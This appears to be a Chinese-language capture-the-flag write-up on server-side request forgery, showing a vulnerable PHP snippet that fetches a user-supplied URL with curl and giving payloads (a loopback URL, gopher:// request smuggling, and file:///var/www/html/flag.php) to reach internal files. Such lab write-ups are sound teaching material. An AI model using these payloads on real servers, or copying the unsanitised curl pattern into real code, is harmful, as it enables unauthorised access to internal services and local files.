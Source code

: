 [TOC]



### 一、知识点

#### Ⅰ、SSRF攻击点

```php
<?php
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
?>
```

> curl_init()：初始curl会话
> curl_setopt()：会话设置
> curl_exec()：执行curl会话,获取内容
> curl_close()：会话关闭



#### Ⅱ、gopher协议

通过gopher协议，将请求体用url编码后加上任意字符,一般是下划线，接上gopher的url即可执行GET、POST请求

```php
gopher://ip:port/_[stream]
```





### web351



<img src="https://s2.loli.net/2022/12/18/aYrXZ5GDJlPItbc.png" alt="image-20221218214527289" style="zoom:33%;" />

我们可以使用post传入url的参数：

```php
http://127.0.0.1/flag.php
```

这样的话，在服务器上，就会使用 curl_exec($ch) 函数去执行访问该url，并且返回文件中的内容，然后使用echo输出

如果我们直接去访问，肯定访问不到，因为该文件在服务器内网上



**解法二**：

我们可以使用file协议：

```php
file:///var/www/html/flag.php
或
file://127.0.0.1/var/www/html/flag.php
```
